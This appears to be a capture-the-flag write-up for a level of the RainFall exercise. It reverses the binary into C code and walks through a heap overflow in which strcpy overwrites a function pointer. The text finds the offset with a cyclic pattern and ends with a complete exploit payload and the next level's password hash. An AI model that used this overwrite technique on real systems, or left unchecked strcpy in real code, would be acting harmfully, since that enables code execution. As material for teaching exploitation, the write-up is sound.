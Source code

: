 # Source Code

<table  style="margin: 0 auto;">
  <tr>
    <th>Assembly Code</th>
    <th>C Code</th>
  </tr>
  <tr>
    <td>
      <pre><code class="language-asm">
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret

Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret

Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
      </code></pre>
    </td>
    <td>
      <pre><code class="language-c">
void n() {
  system("/bin/cat /home/user/level7/.pass");
}

void m() {
  puts("Nope");
}

int main(int argc, char* argv[]) {
  void *func;
  char *buff;

  buff = malloc(64);
  func = malloc(4);
  *func = m;
  strcpy(buff, argv[1]);
  (*func)();
}
      </code></pre>
    </td>
  </tr>
</table>



# Exploring

First look, we can see that `strcpy` vulnerable to buffer overflow, which is copies `argv[1]` to `buff` without checking if the input exceeds the allocated memory size of destination `buff`.

Second, we have two allocated memory blocks using `malloc`, the first one `buff` with size **64**, second one is `func` with **4** of size.

the blocks are allocated in memory in aligned way like below:

```
             H          e              a          p
─────────────────────────────────────────────────────────────────────────────────────
   |         buff (size 64)        |          |  func (size: 4) |
─────────────────────────────────────────────────────────────────────────────────────
   ^                               ^          ^                 ^
 buff                           buff+64      func             func+4
```

`strcpy` can copy more than `64`, reaching `func` block.


# Exploting

Before coping `argv[1` to `buff`, they assign `m` function address to `func`, after that they call back to `m` from `func`.

Yes, we can override `func` by exceeds the `buff` size which is **64**, with malicious function, in this case is `n` that read **level7 .pass** file for us.

Get offset of `func` from `buff`.

```
python3 tools/cyclic.py -g 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A


   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
=> 0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.

gdb-peda$ p $eax
$2 = 0x41346341


python3 tools/cyclic.py -o 0x41346341
Offset found at: 72
```

So the offset is **72**.


The Payload format be like:

```
a * 72 + 'address of n'
```

Address of `n` is `\x54\x84\x04\x08`.

The final Payload:

```
python2 -c "print 'a' * 72 + '\x54\x84\x04\x08'"
```

Output:
```
level6@RainFall:~$ ./level6 `python2 -c "print 'a' * 72 + '\x54\x84\x04\x08'"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We got the level7's password, let's move on to the next challenge `level7`.
